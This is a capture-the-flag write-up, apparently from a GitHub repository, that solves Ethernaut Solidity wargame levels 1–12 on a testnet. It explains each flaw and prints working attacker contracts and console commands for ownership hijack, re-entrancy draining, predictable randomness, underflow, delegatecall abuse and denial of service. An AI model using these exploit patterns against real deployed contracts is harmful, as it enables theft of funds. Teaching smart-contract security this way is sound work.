









# Ethernaut
The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'.
# Setup

Welp. I used [google](https://cloud.google.com/application/web3/faucet/ethereum/sepolia) Sepolia Faucet to get some ETH.
# 1 - Fallback

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

This contract tracks ETH contributions and assigns ownership. When deployed, the deployer becomes the owner and is given a massive contribution balance:

```c
constructor() {  
    owner = msg.sender;  
    contributions[msg.sender] = 1000 * (1 ether);  
}
```

Other users can contribute small amounts of ETH (less than 0.001 ether):

```c
function contribute() public payable {  
    require(msg.value < 0.001 ether);  
    contributions[msg.sender] += msg.value;  
  
    if (contributions[msg.sender] > contributions[owner]) {  
        owner = msg.sender;  
    }  
}
```

Because the original owner has 1000 ether recorded, it’s practically impossible to surpass them through `contribute()`.

The vulnerability is in the `receive()` function:

```c
receive() external payable {  
    require(msg.value > 0 && contributions[msg.sender] > 0);  
    owner = msg.sender;  
}
```

If a user has contributed **any non-zero amount**, they can send ETH directly to the contract address. This triggers `receive()` and immediately sets them as the new owner.

Once ownership is gained, the attacker can drain the contract:

```c
function withdraw() public onlyOwner {  
    payable(owner).transfer(address(this).balance);  
}
```

So the flaw is that ownership can be hijacked via the `receive()` function after making a tiny contribution.

The challenge is called “Fallback” because the vulnerability is hidden inside Solidity’s special ETH-handling function (`receive()`), allowing ownership takeover through a fallback-style call (meaning a direct ETH transfer to the contract address that triggers the special `receive()`/`fallback()` function automatically, instead of explicitly calling a named function like `contribute()`) instead of a normal function call. 

**Step 1: Make a small contribution** (to satisfy the `contributions[msg.sender] > 0` requirement)

```js
await contract.contribute({value: toWei("0.0001")})
```

**Step 2: Send ETH directly to the contract** to trigger the `receive()` fallback and become owner

```js
await sendTransaction({from: player, to: contract.address, value: toWei("0.0001")})
```

**Step 3: Verify you're the owner**

```js
await contract.owner()
// Should return your player address
```

**Step 4: Drain the contract balance**

```js
await contract.withdraw()
```

```js
await getBalance(contract.address) // should return "0"
```



# 2 - Fallout

Claim ownership of the contract below to complete this level.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

This is a classic **constructor name mismatch bug** from Solidity <0.8.

In older Solidity (pre-0.5), constructors were defined by naming a function **the same as the contract**. The contract is named `Fallout` but the "constructor" is named `Fal1out` (with a **1** instead of **l**).

```c
contract Fallout {        // contract name
    function Fal1out()    // typo! this is NOT a constructor
```

This means `Fal1out()` is just a **regular public function** that anyone can call to become owner.

```js
await contract.Fal1out()
```

That's it. Verify:

```js
await contract.owner() // should be your player address
```



# 3 - Coin Flip

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

The contract tries to simulate randomness using `blockhash(block.number - 1)`, but **blockchain data is fully public and deterministic**. Anyone can read the same block hash and compute the "random" result **before** submitting their guess.

How the Contract Thinks It's Random

```c
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

This number is exactly **2²⁵⁵**  half of the maximum uint256 value (2²⁵⁶). This is intentional it's used to split the block hash into two buckets (0 or 1), like a coin.

```c
function flip(bool _guess) public returns (bool) {
    // Step 1: grab last block's hash as a "random" number
    uint256 blockValue = uint256(blockhash(block.number - 1));

    // Step 2: prevent calling twice in same block
    if (lastHash == blockValue) {
        revert();
    }
    lastHash = blockValue;

    // Step 3: divide by FACTOR → result is either 0 or 1
    // if blockHash >= 2^255 → coinFlip = 1 (true)
    // if blockHash <  2^255 → coinFlip = 0 (false)
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    // Step 4: compare with your guess
    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0; // resets on wrong guess!
        return false;
    }
}
```

**`blockhash(block.number - 1)` is public data**. Anyone can read it. So we can run the exact same math and always know the answer before guessing.

When attacker contract calls the victim in the **same transaction**:
- Both contracts are executing in the **same block**
- So `block.number` and `blockhash(block.number - 1)` are **identical** in both
- We compute the answer → pass it → victim sees the same answer.

```
Block #1000
├── Your attack() runs
│   ├── reads blockhash(999)  → computes side = true
│   └── calls victim.flip(true)
│       └── victim reads blockhash(999) → side = true 
```

The contract has this guard:

```c
if (lastHash == blockValue) { revert(); }
```

We can only call `flip()` **once per block**. So we need to call it 10 times across 10 different blocks we need an **attacker contract** to do the math on-chain atomically.

Deploy This on Remix:

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Interface = a "contact card" for the victim contract
// We only need to declare the function we want to call
// Solidity uses this to know how to encode the call correctly
interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {

    // Same FACTOR as victim (2^255 = half of max uint256)
    // Used to split blockhash into 0 or 1 (fake coin flip)
    // Must be identical to victim or prediction will be wrong
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    // Stores a reference to the victim contract
    // Type is ICoinFlip so we can call .flip() on it
    ICoinFlip target;

    // Runs once at deploy time
    // _target = the address of the CoinFlip level contract
    constructor(address _target) {
        // Cast the raw address into an ICoinFlip contract reference
        // Now we can call target.flip() like a normal function
        target = ICoinFlip(_target);
    }

    // Call this once per block, 10 times total
    // Each call = one guaranteed correct guess sent to victim
    function attack() public {

        // Get the previous block's hash as a uint256
        // block.number    = current block (e.g. 1000)
        // block.number-1  = previous block (e.g. 999)
        // blockhash(999)  = 32 byte hash of block 999
        // uint256(...)    = cast to number so we can do math
        uint256 blockValue = uint256(blockhash(block.number - 1));

        // Integer division by 2^255
        // if blockValue >= 2^255 → result = 1
        // if blockValue <  2^255 → result = 0
        // This is the exact same math the victim runs
        uint256 coinFlip = blockValue / FACTOR;

        // Convert 0/1 to false/true
        // ternary: condition ? value_if_true : value_if_false
        bool side = coinFlip == 1 ? true : false;

        // Call victim with our pre-computed correct answer
        // KEY INSIGHT: this runs in the SAME block as our prediction
        // so block.number and blockhash are identical in both contracts
        // victim computes same side → sees our guess matches → consecutiveWins++
        target.flip(side);
    }
}
```

In the Ethernaut browser console:

```js
contract.address
// copy this address, you'll need it soon
```

1. Go to **[remix.ethereum.org](https://remix.ethereum.org)**
2. In the file explorer, click **"New File"** → name it `CoinFlipAttack.sol`
3. Paste the full contract code
4. Click the **Solidity compiler tab** (left sidebar, looks like `<S>`)
5. Set compiler version to **0.8.0** or higher
6. Click **"Compile CoinFlipAttack.sol"**
7. Open MetaMask → make sure you're on **Sepolia testnet**
8. In Remix, click the **Deploy tab** (left sidebar, looks like Ethereum logo)
9. Under **Environment**, select **"Injected Provider - MetaMask"**
10. MetaMask will pop up asking to connect → approve it
11. You should see your wallet address appear in Remix
12. Under **Contract**, make sure `CoinFlipAttack` is selected
13. Expand the `_target` field next to Deploy button
14. Paste your level's contract address from Step 1
15. Click **"Deploy"**
16. MetaMask pops up → confirm the transaction
17. Wait for it to confirm on Sepolia

In Remix's **Deployed Contracts** section at the bottom left:

1. Expand your deployed `CoinFlipAttack`
2. You'll see the `attack` button
3. Click `attack` → confirm in MetaMask → wait for tx to confirm (~12 sec)
4. Repeat **10 times**, waiting for each tx to confirm before the next



More easy way than manually doing this is to copy the deployed contract address from Remix.

```js
// attacker contract address from Remix
const attackerAddress = "0x91f9e9614bC885F79B19f38B4151Abbc1f8D2699";

// minimal ABI - only need attack function
const abi = [{"inputs":[],"name":"attack","outputs":[],"stateMutability":"nonpayable","type":"function"}];

// use web3 which is already injected by Ethernaut
const attacker = new web3.eth.Contract(abi, attackerAddress);

// get your player address
const accounts = await web3.eth.getAccounts();
const from = accounts[0];

async function runAttack() {
    for (let i = 1; i <= 10; i++) {
        console.log("Attack " + i + "/10...");

        // send attack and wait for confirmation
        await attacker.methods.attack().send({ from: from });

        // check streak
        const wins = (await contract.consecutiveWins()).toString();
        console.log("Streak: " + wins + "/10");

        // wait 13 seconds for next block
        if (i < 10) {
            console.log("Waiting for next block...");
            await new Promise(r => setTimeout(r, 13000));
        }
    }
    console.log("Done! Submit the instance.");
}

runAttack();
```

Now Metamask will pop up automatically and confirm it 10 times in row.

```js
// To check streak
(await contract.consecutiveWins()).toString()
```



Now Submit the level.
# 4 - Telephone

Claim ownership of the contract below to complete this level.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

It's a simple ownership contract. It has one job: let someone take ownership via `changeOwner()`. But it tries to guard that with a condition:

```
if (tx.origin != msg.sender) {
    owner = _owner;
}
```

Ironically, this condition **only allows the change** when the caller seems "indirect" which is backwards from what a secure contract would want.

**`tx.origin`** The original human wallet that kicked off the entire transaction chain. Always an EOA (Externally Owned Account - a real wallet, never a contract). 

**`msg.sender`** The immediate caller of the current function. Could be a wallet *or* a contract.

**The difference** ``` You (wallet) → Contract A → Contract B

Inside Contract B:

- `tx.origin` = **You** (the wallet, start of the chain)
- `msg.sender` = **Contract A** (whoever called B directly)

When you call a contract directly with no middleman, both are just you - so they're equal.

**Why `tx.origin` is dangerous for auth** ?

It can be spoofed indirectly. If you trick a user into calling your malicious contract, `tx.origin` is still their wallet - meaning you can impersonate their authority downstream without them realizing it.

Deploy this contract in Remix:

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract TelephoneAttack {
    
    function attack(address _target) public {
        // _target = the Telephone level contract address
        // we use low-level .call() to avoid needing an interface
        // this sidesteps the "abstract contract" compiler error
        (bool success,) = _target.call(
            // encode the function signature + argument
            // msg.sender here = this contract (TelephoneAttack)
            // but when Telephone checks tx.origin, it sees YOUR wallet
            // so tx.origin != msg.sender → condition passes → owner changes
            abi.encodeWithSignature("changeOwner(address)", msg.sender)
        );

        // if the call failed for any reason, revert everything
        require(success);
    }
}
```

Copy deployed contract address.

Now in the Ethernaut browser console. Get your level contract address:

```js
contract.address
```

**Call attack with that address**

Go back to Remix → Deployed Contracts → expand `TelephoneAttack` → paste the address into the `attack` field → click **attack** → confirm in MetaMask

```c
await contract.owner()
// should return your wallet address
```





# 5 - Token

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

A basic token system. You start with 20 tokens. It tracks balances in a mapping and lets you transfer tokens to others. That's it.

In Solidity 0.6, `uint256` is an **unsigned integer** - it can never be negative. It ranges from `0` to `2²⁵⁶-1`.

So what happens when you go below zero?

```c
0 - 1 = 115792089237316195423570985008687907853269984665640564039457584007913129639935
```

It **wraps around** to the maximum possible uint256 value. This is called an underflow.

```c
require(balances[msg.sender] - _value >= 0);
```

This looks like it's checking you have enough balance. But `uint256` can **never** be negative - so this condition is **always true**, no matter what.

Even if you have 20 tokens and try to transfer 21:

```
 20 - 21 = underflows → huge number → still >= 0 
```

```js
// transfer 21 tokens to any address or level addr (more than your balance of 20)
// this triggers the underflow on your own balance
await contract.transfer("0x478f3476358Eb166Cb7adE4666d04fbdDB56C407", 21)

// verify your new balance (should be a massive number)
(await contract.balanceOf(player)).toString()
```

The fix would have been to write it as:

```c
require(balances[msg.sender] >= _value);
```

than:

```c
require(balances[msg.sender] - _value >= 0);
```

This checks if you actually have enough **before** subtracting - no underflow possible. This is how Solidity 0.8+ handles it automatically under the hood.
# 6 - Delegation

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.
- Fallback methods
- Method ids

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

There are **two contracts**:

- **Delegate** - has an `owner` variable and a `pwn()` function that sets owner to caller
- **Delegation** - also has an `owner` variable, holds a reference to Delegate, and has a fallback that forwards any unknown calls to Delegate via `delegatecall`

In solidity:

**`delegatecall`**

A low level call like `.call()` but with one critical difference:

```
Normal call:
You → Contract B → B's code runs in B's storage

Delegatecall:
You → Contract A → B's code runs in A's storage
```

The **code** comes from Delegate, but the **context** (storage, `msg.sender`, `owner`) is Delegation's. So when `pwn()` runs via delegatecall and does `owner = msg.sender`, it's writing to **Delegation's** owner slot, not Delegate's.

**Method ID / `msg.data`**

When you call a function, Solidity encodes it as the first 4 bytes of the keccak256 hash of the function signature:

```c
keccak256("pwn()") → first 4 bytes = the method ID
```

When Delegation's fallback fires, it passes `msg.data` straight to delegatecall - which Delegate reads as "call pwn()".

Solve from console:

```js
// encode the pwn() function signature as msg.data
// this is what gets passed to the fallback → delegatecall → pwn()
await sendTransaction({
    from: player,
    to: contract.address,
    data: web3.utils.keccak256("pwn()").slice(0, 10)
})

// verify
await contract.owner() // should be your address
```
# 7 - Force

Some contracts will simply not take your money `¯\_(ツ)_/¯`

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

It's a completely empty contract. No `receive()`, no `fallback()`, no payable functions - nothing. Normally if you try to send ETH to it, it would just revert. There's no way to accept ETH... or is there?

**`selfdestruct`**

There's one way to force ETH into any contract regardless of its code - `selfdestruct`.

When a contract self destructs:

1. It **destroys itself** (removes its code from the blockchain)
2. It **forcefully sends** all its ETH to a target address

The target contract has **zero say** in this. No fallback is called, no receive is triggered. The ETH just arrives. This works even on empty contracts like Force.

Deploy this on Remix, fund it, then destroy it:

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {

    constructor() payable {}

    function attack(address payable _target) public {
        // selfdestruct is deprecated but still works for this
        selfdestruct(_target);
    }

    // just in case, also allow direct ETH receive
    receive() external payable {}
}
```



Verify in console:

```js
await getBalance(contract.address) // should be > 0
```
# 8 - Vault

Unlock the vault to pass the level!

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

A vault that stores a password and a locked state. You call `unlock()` with the correct password and it unlocks. 

**`private` doesn't mean secret on blockchain**

The `password` variable is marked `private` - but that only means **other contracts** can't read it directly. It does **not** hide it from anyone reading the blockchain.

Everything stored on-chain is **publicly readable**. `private` just prevents Solidity-level access, not blockchain-level access.

**Storage slots**

Every contract has storage laid out in sequential slots starting at 0:

```c
slot 0 → locked (bool)
slot 1 → password (bytes32)
```

We can read any slot directly using `web3.eth.getStorageAt`.

```js
// read slot 1 where password is stored
const password = await web3.eth.getStorageAt(contract.address, 1)
console.log(password)

// unlock with the retrieved password
await contract.unlock(password)

// verify
await contract.locked() // should return false
```
# 9 - King

A ponzi king-of-the-hill game. Whoever sends more ETH than the current prize becomes the new king. When dethroned, the old king gets paid. The owner can always reclaim kingship for free.

When you submit the level, Ethernaut tries to reclaim kingship - you need to **prevent that from ever succeeding**.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

Look at the receive function:

```c
payable(king).transfer(msg.value);
king = msg.sender;
```

Before crowning a new king, it **pays the old king first**. If that payment **fails**, the whole transaction reverts - meaning no new king can ever be set.

So if we make a contract the king, and that contract has no `receive()` or `fallback()` - or one that **always reverts** - then nobody can ever pay it, nobody can ever become the new king, game is permanently broken.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttack {

    // deploy with enough ETH to become king
    constructor() payable {}

    function attack(address payable _target) public {
        // send ETH to King contract to claim kingship
        // once this contract is king, nobody can dethrone it
        (bool success,) = _target.call{value: address(this).balance}("");
        require(success);
    }

    // no receive() or fallback()
    // any attempt to pay us reverts
    // so transfer() in King's receive() will always fail
    // meaning no new king can ever be set
}
```

Check current prize:

```js
(await contract.prize()).toString()
// "1000000000000000"
```

Deploy `KingAttack` on Remix with slightly more ETH than the prize `1000000000000001` Wei.



Call `attack` with `contract.address`.

Verify:

```js
await contract._king() // should be your KingAttack contract address
```
# 10 - Re-entrancy

The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

A simple donation and withdrawal system. You can donate ETH to any address, check balances, and withdraw your own balance. 

Look at the withdraw function order of operations:

```c
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value: _amount}(""); // 1. sends ETH first
        balances[msg.sender] -= _amount;                       // 2. updates balance AFTER
    }
}
```

It sends ETH **before** updating the balance. This is the classic mistake.

When the contract sends ETH to us via `.call()`, if we're a contract, our `receive()` function fires **automatically**. And inside that `receive()`, we can call `withdraw()` **again** before the balance ever gets updated.

```c
Attack calls withdraw()
→ contract sends ETH
→ our receive() fires
  → attack calls withdraw() again  ← balance still not updated!
  → contract sends ETH again
  → our receive() fires again
    → repeat until contract is drained
→ balance finally updated (too late)
```

This is called **re-entrancy** - we re-enter the withdraw function recursively before it finishes.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ReentranceAttack {

    address payable target;
    uint256 amount;

    constructor(address payable _target) {
        target = _target;
    }

    function attack() public payable {
        amount = msg.value;

        // donate using raw call
        (bool success,) = target.call{value: amount}(
            abi.encodeWithSignature("donate(address)", address(this))
        );
        require(success);

        // trigger first withdrawal
        (bool success2,) = target.call(
            abi.encodeWithSignature("withdraw(uint256)", amount)
        );
        require(success2);
    }

    // re-enters withdraw before balance updates
    receive() external payable {
        if (target.balance >= amount) {
            target.call(
                abi.encodeWithSignature("withdraw(uint256)", amount)
            );
        }
    }

    // send drained ETH back to your wallet
    function collect() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

First check contract balance:

```js
await getBalance(contract.address) // note this amount
```

The contract has `0.001 ETH`. So deploy `ReentranceAttack` with the target address, then:

1. In Remix, call `attack` with value set to `1000000000000000` Wei (= 0.001 ETH)
2. After tx confirms, verify in console:

```js
await getBalance(contract.address) // should be "0"
```

3. Call `collect` in Remix to get the ETH back to your wallet
4. Submit
# 11 - Elevator

This elevator won't let you reach the top of your building. Right?
##### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

We need to reach to top. An elevator that tries to reach the top floor. It asks the calling `Building` contract "is this the last floor?" twice. If the first check says **no**, it sets the floor and asks again - setting `top` to whatever the second answer is.

The Elevator blindly trusts whatever `isLastFloor()` returns. It calls it **twice** expecting consistent answers - but it has no way to enforce that.

```c
if (!building.isLastFloor(_floor)) {  // expects false → enter the if
    floor = _floor;
    top = building.isLastFloor(floor); // expects false again → but we return true!
}
```

We just need a contract that returns **different values** on each call:

- 1st call → return `false` (to pass the if check)
- 2nd call → return `true` (to set `top = true`)

A simple counter toggle does the trick.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract BuildingAttack {

    // tracks how many times isLastFloor has been called
    uint256 callCount = 0;

    function isLastFloor(uint256) external returns (bool) {
        callCount++;
        // 1st call → false (passes the if check)
        // 2nd call → true (sets top = true)
        return callCount > 1;
    }

    function attack(address _target) public {
        IElevator(_target).goTo(1);
    }
}
```

- Deploy `BuildingAttack` on Remix
- Call `attack` with `contract.address`
- Verify in console:

```js
await contract.top() // should return true
```
# 12 - Privacy

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

- Understanding how storage works
- Understanding how parameter parsing works
- Understanding how casting works

Tips:

- Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.

```c
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

We need to call `unlock(bytes16 _key)` with the correct key derived from `data[2]` stored in private storage.

Solidity packs variables into 32-byte slots sequentially:

```c
Slot 0 → locked (bool, 1 byte)
Slot 1 → ID (uint256, 32 bytes - fills entire slot)
Slot 2 → flattening (uint8) + denomination (uint8) + awkwardness (uint16) → packed into one slot
Slot 3 → data[0] (bytes32)
Slot 4 → data[1] (bytes32)
Slot 5 → data[2] (bytes32)  ← this is what we need
```

`data[2]` sits at **storage slot 5**.

`private` only blocks **other Solidity contracts** from reading the variable. It does **not** hide data from anyone reading raw blockchain storage. Every slot is publicly readable.

The `unlock` function needs:

```c
require(_key == bytes16(data[2]));
```

